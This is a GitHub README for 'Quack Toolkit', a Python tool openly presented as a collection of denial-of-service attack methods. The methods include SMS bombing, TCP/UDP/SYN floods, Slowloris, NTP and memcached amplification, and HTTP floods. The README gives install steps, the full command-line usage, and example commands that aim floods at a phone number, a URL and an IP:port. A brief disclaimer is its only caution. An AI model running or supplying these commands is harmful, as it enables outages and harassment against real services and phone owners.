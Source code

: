# Quack Toolkit

![quack](https://user-images.githubusercontent.com/54115104/74247189-c04a9300-4cf6-11ea-982a-2222329215bd.jpeg)

<p align="center">
  <a href="http://entynetproject.simplesite.com/">
    <img src="https://img.shields.io/badge/entynetproject-Ivan%20Nikolsky-blue.svg">
  </a>
  <a href="https://github.com/entynetproject/quack/releases">
    <img src="https://img.shields.io/github/release/entynetproject/quack.svg">
  </a>
  <a href="https://wikipedia.org/wiki/Python_(programming_language)">
    <img src="https://img.shields.io/badge/language-python-blue.svg">
 </a>
  <a href="https://github.com/entynetproject/quack/issues?q=is%3Aissue+is%3Aclosed">
      <img src="https://img.shields.io/github/issues/entynetproject/quack.svg">
  </a>
  <a href="https://github.com/entynetproject/quack/wiki">
      <img src="https://img.shields.io/badge/wiki%20-quack-lightgrey.svg">
 </a>
  <a href="https://twitter.com/entynetproject">
    <img src="https://img.shields.io/badge/twitter-entynetproject-blue.svg">
 </a>
</p>

***

# About Quack Toolkit

    Quack Toolkit is a set of a Denial of Service 
    attack methods. Quack includes SMS attack method, 
    TCP attack method and many other attack methods.

***

# Getting started

## Quack installation

> cd quack

> chmod +x install.sh

> ./install.sh

## Quack uninstallation

> cd quack

> chmod +x uninstall.sh

> ./uninstall.sh

***

# Quack Toolkit execution

> quack -h

```
usage: quack [-h] [--target <IP:PORT, URL, PHONE>]
             [--method [SMS|NTP|TCP|UDP|SYN|POD|SLOWLORIS|MEMCACHED|HTTP|NJRAT]]
             [--time <time>] [--threads <threads>] [-u]

optional arguments:
  -h, --help            show this help message and exit
  --target <IP:port, URL, phone>
                        Target IP:port, URL or phone.
  --method [SMS|NTP|TCP|UDP|SYN|POD|SLOWLORIS|MEMCACHED|HTTP|NJRAT]
                        Attack method.
  --time <time>         Time in secounds.
  --threads <threads>   Threads count.
  -u, --update          Update Quack Toolkit.
``` 
***
  
# Quack Toolkit examples

> Example of the SMS attack method
    
    quack --method SMS --target +11111111111 --time 10 --threads 10
    
> Example of the HTTP attack method

    quack --method HTTP --target http://example.com/ --time 10 --threads 10
    
> Example of the TCP attack method

    quack --method TCP --target 1.1.1.1:8080 --time 10 --threads 10

***

# Quack Toolkit disclaimer

    Usage of the Quack Toolkit for attacking targets without prior mutual consent is illegal. 
    It is the end user's responsibility to obey all applicable local, state, federal, and international laws. 
    Developers assume no liability and are not responsible for any misuse or damage caused by this program.

***

# Quack Toolkit license

    MIT License

    Copyright (C) 2019, Entynetproject. All Rights Reserved.

    Permission is hereby granted, free of charge, to any person obtaining a copy
    of this software and associated documentation files (the "Software"), to deal
    in the Software without restriction, including without limitation the rights
    to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
    copies of the Software, and to permit persons to whom the Software is
    furnished to do so, subject to the following conditions:

    The above copyright notice and this permission notice shall be included in all
    copies or substantial portions of the Software.

    THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
    IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
    FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
    AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
    LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
    OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
    SOFTWARE.

